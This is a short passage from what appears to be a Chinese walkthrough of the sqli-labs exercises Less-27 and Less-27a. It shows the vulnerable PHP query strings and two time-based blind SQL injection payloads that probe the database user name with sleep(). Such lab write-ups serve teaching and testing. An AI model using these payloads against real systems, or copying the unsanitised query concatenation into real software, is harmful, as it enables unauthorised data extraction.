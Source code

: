 + 我们只需要把Less-26的payload修改即可。

```sql
1'and(if(substring(user(),1,1)=char(114),sleep(3),0))='
```

## Less-27a与SELECT&amp;UNION的绕过

+ Less-27a和Less-27两个题目的区别在于SQL语句不一样。

```php
# Less-27
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
# Less-27a
$id = '"' .$id. '"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

+ Less-27使用单引号，Less-27a使用双引号。
+ 这里我们只需要把Less-27的payload修改即可。

```sql
1"and(if(substring(user(),1,1)=char(114),sleep(3),0))="
```

